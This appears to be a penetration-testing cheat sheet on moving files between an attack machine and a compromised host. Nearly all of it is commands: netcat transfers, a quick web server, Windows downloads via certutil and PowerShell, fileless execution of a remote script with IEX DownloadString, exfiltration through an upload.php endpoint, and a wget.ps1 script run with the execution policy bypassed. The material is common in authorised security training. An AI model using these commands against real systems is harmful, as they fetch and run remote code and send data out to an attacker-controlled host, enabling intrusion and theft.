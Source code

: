 ## File transfer via netcat

Netcat - listen for incoming file

```bash
nc -nlvp 4444 > incoming.exe
```

Netcat - send file

```bash 
nc -nv <ip address> 4444 < outgoing.exe
```

## File transfers via web

```bash
# Set up web server
python3 -m http.server

# Alternate if using /var/www
systemctl start apache2
```

```bash
# Commands for Windows systems to grab file from attack system
certutil -urlcache -f http://<ip>/<file>
cscript wget.vbs http://<ip>/<file> <file>
powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://<ip>/<file>', '<file>')
```

```powershell
# Run powershell script on attack systemwithout saving to disk
powershell.exe IEX(New-Object System.Net.WebClient).DownloadString('http://<ip>/<file.ps1>')
```

```bash
# Transfer file to attack system (using upload.php script)
powershell (New-Object System.Net.WebClient).UploadFile('http://<ip>/upload.php', '<file>')
```

### wget.ps1 script

```powershell
# Create file on command line
C:\> echo $webclient = New-Object System.Net.WebClient >>wget.ps1
C:\> echo $url = "http://<ip>/<file>" >>wget.ps1
C:\> echo $file = "<file>" >>wget.ps1
C:\> echo $webclient.DownloadFile($url,$file) >>wget.ps1

# Run script
C:\> powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1
```

